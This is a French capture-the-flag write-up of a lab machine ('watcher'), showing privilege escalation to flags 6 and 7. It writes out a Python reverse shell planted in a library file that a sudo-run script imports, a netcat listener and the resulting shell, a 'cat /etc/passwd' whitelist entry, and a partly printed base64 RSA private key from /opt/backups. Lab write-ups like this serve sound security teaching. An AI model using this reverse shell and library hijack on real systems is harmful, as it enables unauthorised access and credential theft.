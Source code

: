 ```will_script.py

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```
On peux modifier le fichier cmd.py qui sert de lib pour le script de will.
On va donc modifier cette lib et y ajouter un revershell.
```
mat@watcher:~/scripts$ cat cmd.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("{IP}",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

import pty
pty.spawn("/bin/bash")
```
Ensuite, on execute le script (Sans oublier de démarrer le listener !)
```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 3
```
Et nous voila en tant que will !
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 5555                              
listening on [any] 5555 ...
connect to [{IP}] from (UNKNOWN) [10.10.114.38] 35824
will@watcher:~/scripts$ 
```
```flag_6.txt
will@watcher:/home/will$ cat flag_6.txt
FLAG{but_*_********_**_******_***_secure}
```
# Flag 7
Après de grandes recherches, je trouve dans **/opt/backups** un fichier **key.b64**
```key.b64
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
OGNIb205bXNzeVBaNTNhTHpCY1J5QncrcnlzSjNoMEpDeG5WK2FHCm9wWmRjUXowMVlPWWRqWUlh
WkVKbWRjUFZXUXAvTDB1YzV1M2lnb2lLMXVpWU1mdzg1ME43dDNPWC9lcmRLRjQKanFWdTNpWE45
ZG9CbXIzVHVVOVJKa1ZuRER1bzh5NER0SXVGQ2Y5MlpmRUFKR1VCMit2Rk9ON3E0S0pzSXhnQQpu
TThrajhOa0ZrRlBrMGQxSEtIMitwN1FQMkhHWnJmM0RORm1RN1R1amEzem5nYkVWTzdOWHgzVjNZ
T0Y5eTFYCmVGUHJ2dERRVjdCWWI2ZWdrbGFmczRtNFhlVU8vY3NNODRJNm5ZSFd6RUo1enBjU3Jw
bWtESHhDOHlIOW1JVnQKZFNlbGFiVzJmdUxBaTUxVVIvMndOcUwxM2h2R2dscGVQaEtRZ1FJREFR
QUJBb0lCQUhtZ1RyeXcyMmcwQVRuSQo5WjVnZVRDNW9VR2padjdtSjJVREZQMlBJd3hjTlM4YUl3
YlVSN3JRUDNGOFY3cStNWnZEYjNrVS80cGlsKy9jCnEzWDdENTBnaWtwRVpFVWVJTVBQalBjVU5H
VUthWG9hWDVuMlhhWUJ0UWlSUjZaMXd2QVNPMHVFbjdQSXEyY3oKQlF2Y1J5UTVyaDZzTnJOaUpR
cEdESkRFNTRoSWlnaWMvR3VjYnluZXpZeWE4cnJJc2RXTS8wU1VsOUprbkkwUQpUUU9pL1gyd2Z5
cnlKc20rdFljdlk0eWRoQ2hLKzBuVlRoZWNpVXJWL3drRnZPRGJHTVN1dWhjSFJLVEtjNkI2CjF3
c1VBODUrdnFORnJ4e****************************0R4Ym90aTJnZGdtRm9scG5Gdyt0MFFS
QjVSQ0YKQWxRSjI4a0NnWUVBNmxyWTJ4eWVMaC9hT0J1OStTcDN1SmtuSWtPYnBJV0NkTGQxeFhO
dERNQXo0T3FickxCNQpmSi9pVWNZandPQkh0M05Oa3VVbTZxb0VmcDRHb3UxNHlHek9pUmtBZTRI
UUpGOXZ4RldKNW1YK0JIR0kvdmoyCk52MXNxN1BhSUtxNHBrUkJ6UjZNL09iRDd5UWU3OE5kbFF2
TG5RVGxXcDRuamhqUW9IT3NvdnNDZ1lFQTMrVEUKN1FSNzd5UThsMWlHQUZZUlhJekJncDVlSjJB
QXZWcFdKdUlOTEs1bG1RL0UxeDJLOThFNzNDcFFzUkRHMG4rMQp2cDQrWThKMElCL3RHbUNmN0lQ
TWVpWDgwWUpXN0x0b3pyNytzZmJBUVoxVGEybzFoQ2FsQVF5SWs5cCtFWHBJClViQlZueVVDMVhj
```